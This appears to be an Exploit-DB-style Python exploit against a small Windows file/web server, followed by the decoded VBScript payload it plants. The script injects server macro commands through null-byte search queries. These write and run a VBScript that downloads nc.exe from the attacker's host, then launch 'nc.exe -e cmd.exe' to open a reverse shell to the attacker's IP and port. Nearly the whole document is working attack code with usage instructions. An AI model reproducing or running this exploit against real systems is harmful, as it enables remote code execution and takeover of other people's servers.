 ```
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```

The content of vbs:

```
C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://"+ip_addr+"/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with
```
